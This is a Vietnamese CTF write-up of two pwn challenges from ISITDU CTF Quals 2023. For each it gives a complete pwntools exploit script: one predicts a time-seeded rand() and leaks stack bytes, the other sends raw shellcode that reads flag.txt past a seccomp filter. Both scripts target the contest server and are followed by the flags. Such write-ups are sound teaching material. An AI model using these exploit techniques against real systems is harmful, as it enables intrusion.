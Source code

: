 # ISITDU CTF Quals 2023 WriteUp
## Đôi lời tâm sự:
Author: SeaWind (J4ckP0t)
Ở giải CTF này thì mình đã giải được 2 challenges cũng tương đối dễ trên tổng số 6 challenges về mảng pwn.

Nói chung là mình hơi tiếc vì còn một challenge mà mình nghĩ là mình có thể gần với đáp án rồi, nhưng chưa biết triển khai ra sao.

Còn những bài còn lại thì chịu :V 

Dài dòng thế là đủ rồi, đến phần writeup thôi.

## Time Controller
- Đề bài: [Challenge_link](https://ctf.isitdtu.com/files/4b8da8bdb5fa7d8ed990418c23457005/ForUser.zip?token=eyJ1c2VyX2lkIjoxNDcwLCJ0ZWFtX2lkIjo4NzksImZpbGVfaWQiOjI5fQ.ZS5zPg.ku8B6yfdkkf2Li_Qj-OhAA1M2Ts)
- Solution:

Đầu tiên thì file challenge đã cho ta đủ công cụ cần thiết để thiết lập một dockerfile để từ đó ta có thể thử mô phỏng solution của ta trên chính docker đó

Tiếp đến ta sẽ tiến hành checksec các mitigations của challenge:

![](https://hackmd.io/_uploads/ByOxoWn-p.png)

Việc bật full mitigations của challenge sẽ khiến việc khai thác lỗ hổng trở nên khó khăn hơn

Tiếp đến kiểm tra mã giả của challenge thông qua IDA Pro:

![](https://hackmd.io/_uploads/BJEjjZhZp.png)

Ta sẽ tiến hành phân tích luồng thực thi chương trình:
1. Đầu tiên chương trình sẽ gọi đến hàm Elementary_Magic 

![](https://hackmd.io/_uploads/HJwlhWh-6.png)

Hàm sẽ dùng hàm rand() trong với seed là kết quả của time(0) (trả về thời gian hiện tại), đồng thời chương trình sẽ đã leak ra giùm ta seed của nó. Điều này sẽ giúp ta giải quyết challenge dễ hơn

Khi ta có được seed rồi, hiển nhiên ta sẽ tìm được giá trị của biến `v2` (kết quả hàm rand()) và cả biến `v3` (giá trị của hàm time(0)) 

Chương trình sẽ yêu cầu nhập 20 bytes input và convert sang thành số. Sau đó tiến hành xor với `v2` và `v3` và kiểm tra xem có bằng `0xDEADBEEFDEADC0DE`. Nếu không thì chương trình sẽ tự thoát.

2. Kế đến nếu giải quyết được bài toán của hàm Elementary_Magic thì sẽ gọi đến hàm Advanced_Magic

![](https://hackmd.io/_uploads/HkdJ0Zn-p.png)

Ở hàm này thì đầu tiên chương trình sẽ đọc 8 bytes ngẫu nhiên lấy trong `/dev/urandom` và tiến hành copy giá trị 8 bytes ấy vào trong biến `v5`

Sau đó hàm sẽ đọc 0x20 (32) bytes của mình và in ra input (ở đây ta có thể lợi dụng lỗ hổng của hàm read và put để leak ra được 8 bytes trong biến `random_bytes`, chi tiết thì mình sẽ để [link](https://github.com/Naetw/CTF-pwn-tips#overflow) này để tham khảo)

Cho nên đến lúc này ta có được giá trị của biến `v5` và cả biến `v6` (giá trị của hàm rand() với seed là giá trị của hàm time(0))

Chương trình sẽ yêu cầu nhập 20 bytes input và convert sang thành số. Sau đó tiến hành xor với `v5` và `v6` và kiểm tra xem có bằng `0xDEADBEEFDEADC0DE`. Nếu không thì chương trình sẽ tự thoát.

Và phần thưởng cho ta khi giải được 2 hàm này là hàm win() sẽ đọc flag cho chúng ta.

![](https://hackmd.io/_uploads/H1uD1z3bp.png)

Mấu chốt của bài này là phải biết lợi dụng lấy bù 2 của một số. Bởi vì hàm xor có thể dịch ngược được giá trị cần tìm (kiểu như nếu `A XOR B = C` thì tương đương `A = C XOR B`)
thì giá trị ta cần tìm sẽ rất lớn (lớn hơn 20 bytes mà hàm cho phép ta nhập)

Chính vì thế ta phải biết quy tắc lấy bù 2 của một số (vì hàm không có giới hạn ta không được nhập số âm)

Về nguyên lý bù 2 thì mình sẽ để [link](https://vi.wikipedia.org/wiki/B%C3%B9_2) này để mọi người tham khảo.
- Answer: Đây là script giải ra bài này của mình:
```python!=
from pwn import *
from ctypes import CDLL
from bitstring import Bits
script = """

b*main+88
c
"""
libc = CDLL("libc.so.6")
context.binary='./challenge'

#p = process()
#p = gdb.debug('./challenge',script)
leak_seed2 = libc.time(0)
p = remote('34.126.117.161', 2000)
p.recvline()
leak_seed = int(p.recvline().strip(b'\n').decode())

log.info("Leak seed: %d", leak_seed)
print(p.recv())
p.sendline()
#log.info("Leak seed 2: %d", leak_seed2)
libc.srand(leak_seed)
v2 = libc.rand()
#time.sleep(8)
v3 = libc.time(0)
#v3 += 3
print(hex(v2))
print(hex(v3))
payload1 = 0xDEADC0DE ^ v2 ^ v3
payload1 = -2401053092612145152 | payload1
p.recv()
p.send(str(payload1).encode())
p.sendline(b'1')
p.send(b'A'*31+b'B')
p.recvuntil(b'B')
leak_random = u64(p.recvline().strip(b'\n').ljust(8,b'\x00'))
log.info("Leak random: %s", hex(leak_random))
#time.sleep(0.2)
#msg = p.recv()
#if b"What the hell are you shouting? It's disappointing~" not in msg: break
#p.close()
temp = libc.time(0)
#temp = temp + 1
print(temp)
libc.srand(leak_seed)
v6 = libc.rand()
payload2 = 0xDEADBEEFDEADC0DE ^ leak_random ^ v6
#temp2 = int(hex(payload2 & 0xffffffff),base=16) ^ v6
#temp3 = int(hex(payload2)[:-8] + '0'*8,base=16) | temp2
bin_payload2 = bin(payload2)
temp4 = Bits(bin=bin_payload2)
final_payload = temp4.int
print(v6)
print(payload2)
log.info("Final payload :%d", final_payload)
print(p.recv())
p.sendline()
#payload2 = 0xDEADC0DE ^ v6 ^ leak_random
#payload2 = -2401053092612145152 | payload2
p.send(str(final_payload).encode())
p.interactive()
```
:bulb: **==Flag:ISITDTU{3133ae9afd7ac43ecd0fbd0a3c128b5ef5a0674b}==**


## Ez get flag
- Đề bài: [Challenge_link](https://ctf.isitdtu.com/files/bcfd62046ae7662160a10cdf1a8440fc/ForUser.zip?token=eyJ1c2VyX2lkIjoxNDcwLCJ0ZWFtX2lkIjo4NzksImZpbGVfaWQiOjQ1fQ.ZS5z9Q.fBjbyi_atWZ8svZkz-NHAM3WHH0)
- Solution:

Đầu tiên thì file challenge đã cho ta đủ công cụ cần thiết để thiết lập một dockerfile để từ đó ta có thể thử mô phỏng solution của ta trên chính docker đó

Tiếp đến ta sẽ tiến hành checksec các mitigations của challenge:

![](https://hackmd.io/_uploads/BkqiZzhZT.png)

Oh wow! Không có mitigations được bật. Một mảnh đất màu mỡ để khai thác lỗ hổng :face_with_hand_over_mouth: 

Tiếp đến kiểm tra mã giả của challenge thông qua IDA Pro:

![](https://hackmd.io/_uploads/Hy2QGz3b6.png)

Hướng giải của mình ở đầu là vì chương trình sẽ đọc 0x1000 bytes từ input của mình (và đồng thời sẽ thực thi shellcode của mình thêm vào)

![](https://hackmd.io/_uploads/HyOczM3Zp.png)

Nhưng vì challenge này có sự can thiệp của seccomp nên mình sẽ kiểm tra seccomp của challenge này.

![](https://hackmd.io/_uploads/HkFRzM3-a.png)

Nói một cách dễ hiểu thì seccomp sẽ giới hạn số lượng hàm mà mình có thể syscall trong chương trình

Cụ thể trong challenge này thì chỉ cho phép sử dụng syscall của hàm **open, write, read, writew, exit_group, exit, getegid, setpriority, openat, sendfile, alarm, readlink, pread64, readv, writev**, còn lại thì chương trình sẽ kill process và dừng chương trình

Với nhiêu đây syscall cũng đủ để mình có thể đọc được file flag.txt của challenge này rồi

Mình sẽ dùng syscall của `open('flag.txt', 0, 0)` và syscall của `sendfile(1,(open('flag.txt'),0,0),0,0x1000)`
để đọc flag.

Còn về các syscall trong x86-x64 thì mình sẽ để [link](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) này để tham khảo

Đây là shellcode mà mình sử dụng với ý tưởng đã nêu ở trên.

![](https://hackmd.io/_uploads/BJ4PVMhZ6.png)


- Answer: Đây là script giải ra bài của mình:
```python!=
from pwn import *
context.binary='./challenge'
#p = process()
p = remote('34.126.117.161',3000)
script = """
b*main+147
c
"""
#p = gdb.debug('./challenge',script)
payload = cyclic(0x141)
payload += b'\x48\x31\xDB\x48\xBB\x66\x6C\x61\x67\x2E\x74\x78\x74\x6A\x00\x53\x48\x31\xDB\x48\xBB\x2E\x2F\x2F\x2F\x2F\x2F\x2F\x2F\x53\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\x31\xC0\xB0\x02\x0F\x05\x48\x31\xFF\x48\x83\xC7\x01\x89\xC6\x48\x31\xD2\x4D\x31\xD2\x49\xC7\xC2\x00\x10\x00\x00\x48\x31\xC0\xB0\x28\x0F\x05'
p.sendline(payload)
p.interactive()
```


:bulb: **==Flag:ISITDTU{279e01f8ba05dd9da4010ddb184007cc3fa6d0198cb94eba0f43926ee4c19f68}==**